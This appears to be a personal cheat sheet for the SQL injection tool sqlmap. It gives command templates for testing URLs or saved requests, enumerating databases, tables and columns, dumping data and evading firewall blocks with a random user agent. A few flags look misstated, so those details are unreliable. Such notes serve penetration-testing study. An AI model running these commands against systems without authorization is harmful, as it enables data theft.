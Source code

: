 ```yaml
---
tags:
  - security
  - sqli
  - web
title: Fully Automated Tool (SQLMap)
date: 2024-01-28 14:15:56 -0600
---
```


````bash
sqlmap -hh # Extended Help
````

#### Check site for Vulnerability

````bash
sqlmap -u <URL> --level=5 --risk=3
sqlmap -r <request-file> --string="<text-if-query-true>" --level=5 --risk=3
sqlmap -u <URL>?id=5
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

#### Retrieve DB Names

````bash
sqlmap -r <request-file> --dbs
sqlmap -u <URL> --dbs
sqlmap -u <URL> --current-dbs # Return DB that is currently used
````

#### All Tables from DB

````bash
sqlmap -u <URL> -D <db-name> --tables
````

#### Columns from Table

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

#### View Data from Column

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

#### SQLMapFlags

`-u URL`: Target URL  
`--level=5`: Through Scan - Default : 1  
`--risk=3`: Risk Level - Default : 1  
`-r filename`: Provide the request file  
`--random-agent`: Request blocked by firewall  
`--dump`: Exploit Vulnerability Save result to file

`--string "string"`: String present on result page on successful query (Required from Blind Injection)  
`--dbms=dbms-name`: Pass Database Type (MySQL, PostgreSQL, etc.)

`--technique` : BEUSTQ  
`B`: Boolean-based blind  
`E`: Error-based  
`U`: Union query-based  
`S`: Stacked queries  
`T`: Time-based blind  
`Q`: Inline queries
